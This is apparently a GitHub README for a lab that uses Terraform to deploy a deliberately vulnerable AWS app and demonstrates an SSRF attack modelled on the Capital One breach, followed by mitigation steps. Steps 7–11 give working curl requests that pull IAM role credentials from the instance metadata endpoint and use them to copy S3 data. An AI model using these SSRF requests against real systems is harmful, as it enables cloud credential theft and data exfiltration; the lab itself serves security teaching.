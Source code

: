 # SSRF vulnerability demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram](/images/diagram.jpg)

## Purpose
Demonstrate a Server Side Request Forgery (SSRF) attack in the AWS environment which results in data rertviing from s3, similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environment which you run terraform from : 
```ShellSession
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```

* Optional - In the following files , set the parameters with your values :  
main.tf : `availability_zone` , `resource "aws_key_pair"{public_key}`  
providers.tf : `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for the next commands.

3. Run `terraform validate` command to check whether the configuration is valid.

4. Run `terraform plan` command to show the changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create/update the infrastructure at AWS.

6. If there are no errors from the previous steps , from your terminal, run the following:<br>
__Important 1__ - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).<br>
__Important 2__ - In the next steps `bash$` prompt with `"command"` is for commands you need to run.
```ShellSession
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the URL parameter with the instance metadata URI --> retrieve the attached IAM role --> extract the security credentials as follows: 
```ShellSession
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With AWS CLI - configure a new `aws_ssrf_demo_profile_s3` profile:
```ShellSession
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parameters in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example,
```ShellSession
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```ShellSession
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the JSON file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was successful!!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps



1. Enabling IMDSv2 - enforces requests to use a session token (applied in aws-ec2-metadata-token header ) that can only be used directly from the EC2 instance where that session began.
This step is the first that should be taken as the IMDSv2 service acts as a parallel layer to any application or web app firewall (WAF) vulnerblity / misconfiugration which we might not be aware of yet.
In addtion , the effort to apply it is lower ( updated AWS SDKs and CLIs) compared to the next options

For our case (before `terraform destroy` ) run :

[More details on how to configure the instance metadata options](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html).
```ShellSession
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567898abcdef0 \
    --http-tokens required \
    --http-endpoint enabled
```

2. Fix the application  ruuning in the ec2 instance by adding validation all client-supplied input data.
For example

3. Reduce permissions in the IAM role

## Refrences
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)

* https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/